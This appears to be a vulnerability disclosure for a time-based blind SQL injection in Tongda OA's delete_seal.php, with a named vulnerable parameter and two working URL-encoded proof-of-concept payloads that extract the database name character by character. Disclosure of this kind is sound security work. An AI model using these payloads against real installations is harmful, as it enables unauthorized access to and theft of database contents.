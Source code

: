 tongda oa foreground SQL injection vulnerability

official website:https://www.tongda2000.com/

version:Less than v11.10, v2017

route：general/system/seal_manage/iweboffice/delete_seal.php

injection parameter:$DELETE_STR


![WPS图片(1)](https://github.com/nagenanhai/cve/assets/42707759/5a855137-1829-41f2-8ff5-4ca530d76f83)

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
We can use Cartesian product blind injection, the following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. ascii 116 also corresponds to the lowercase letter t. In this way, the database name and any database information can be obtained through blind injection.
![WPS图片(2)](https://github.com/nagenanhai/cve/assets/42707759/8b83d9b0-75e3-44f6-a589-d8026a1f9c42)

And if we change 116 to 115 there's no delay, there's no delay, there's SQL injection

![WPS图片(3)](https://github.com/nagenanhai/cve/assets/42707759/d483722b-22ad-4d88-a7b6-af4321adbd52)

The second part of the database is intercepted by blind injection, and the second part is identified as the letter d by the delay time
```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![WPS图片(4)](https://github.com/nagenanhai/cve/assets/42707759/c8f3a9d6-6624-4b5c-acf0-05ab8842580e)


In this way, we can inject all the sensitive information of the database through delayed injection.
